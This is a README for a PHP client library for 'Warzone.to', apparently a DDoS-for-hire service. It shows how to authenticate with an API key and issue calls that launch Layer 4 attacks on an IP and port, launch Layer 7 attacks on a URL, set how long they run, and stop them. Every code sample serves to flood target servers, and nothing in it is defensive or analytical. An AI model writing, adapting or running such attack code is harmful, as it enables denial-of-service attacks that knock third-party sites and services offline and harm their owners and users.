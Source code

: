 # Warzone.to API
Sample API usage of Warzone.to

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://warzone.to/methods

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager on website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = 80;
$time = 15;
$method = 1;

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = 15;
$method = 5;

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
/* Echo Response Status */
echo $response->status; // Get API response.

/* Echo Message */
echo $response->message; // Get Message.
```
